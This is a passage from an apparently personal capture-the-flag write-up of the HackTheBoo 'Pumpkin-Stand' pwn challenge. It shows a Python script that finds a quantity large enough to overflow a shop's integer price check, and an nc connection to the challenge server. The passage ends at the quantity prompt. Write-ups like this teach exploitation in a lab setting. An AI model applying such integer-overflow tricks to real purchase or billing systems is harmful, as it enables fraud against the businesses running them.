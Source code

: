**Ohh!!! It's a negative value!**

**Since we have `1337` pumpcoins, we need to use python to calculate the maximum integer!**
```py
#!/usr/bin/env python3

num = 1337
maximum = 2147483647
counter = 1

while True:
	while counter < 999:
		num *= counter
		counter += 1

		if num >= maximum:
			print(f'[+] Maximum = {num}')
			exit()
```

**Output:**
```
┌──(root🌸siunam)-[~/…/HackTheBoo/Pwn/Pumpkin-Stand/challenge]
└─# python3 find_biggest_num.py
[+] Maximum = 4851705600
```

**So, if I type `4851705600` after choosing which item I should buy, it'll become a positive value!**

**Let's `nc` into the docker instance!**
```
┌──(root🌸siunam)-[~/…/HackTheBoo/Pwn/Pumpkin-Stand/challenge]
└─# nc -nv 142.93.35.129 32164
(UNKNOWN) [142.93.35.129] 32164 (?) open

                                          ##&
                                        (#&&
                                       ##&&
                                 ,*.  #%%&  .*,
                      .&@@@@#@@@&@@@@@@@@@@@@&@@&@#@@@@@@(
                    /@@@@&@&@@@@@@@@@&&&&&&&@@@@@@@@@@@&@@@@,
                   @@@@@@@@@@@@@&@&&&&&&&&&&&&&@&@@@@@@&@@@@@@
                 #&@@@@@@@@@@@@@@&&&&&&&&&&&&&&&#@@@@@@@@@@@@@@,
                .@@@@@#@@@@@@@@#&&&&&&&&&&&&&&&&&#@@@@@@@@@@@@@&
                &@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                @@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&&@@@@@@@@@&@@@@@
                @@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                @@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@@
                .@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@
                 (@@@@@@@@@@@@@@&&&&&&&&&&&&&&&&&@@@@@@@@@@@@@@.
                   @@@@@@@@@@@@@@&&&&&&&&&&&&&&&@@@@@@@@@@@@@@
                    ,@@@@@@@@@@@@@&&&&&&&&&&&&&@@@@@@@@@@@@@
                       @@@@@@@@@@@@@&&&&&&&&&@@@@@@@@@@@@/

Current pumpcoins: [1337]

Items: 

1. Shovel  (1337 p.c.)
2. Laser   (9999 p.c.)

>> 2

How many do you want?

```